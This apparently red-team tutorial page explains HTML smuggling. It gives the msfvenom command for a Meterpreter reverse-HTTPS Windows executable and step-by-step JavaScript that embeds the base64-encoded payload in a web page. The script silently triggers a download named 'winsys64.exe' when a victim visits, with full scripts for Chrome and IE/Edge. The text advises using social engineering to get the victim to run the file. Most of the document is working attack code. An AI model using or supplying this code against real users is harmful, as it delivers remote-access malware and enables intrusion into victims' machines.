 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or pretexting.

### Steps

The steps below walks you through creating the JavaScript code compatible with Chrome. For IE/Edge, see the full script section for the compatible code.

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/o.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/o.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var outName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (alternatively, wrap each line in quotes).

```javascript
var payL ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary -->
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var stream = base64ToByteArray(payL);
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blobby = new Blob([stream], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var urlRef = window.URL.createObjectURL(blobby);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
anc.href = urlRef;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
anc.download = outName;
anc.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(urlRef);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```

### Full script (IE/Edge)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
window.navigator.msSaveOrOpenBlob(blobby, outName);
</script>
```





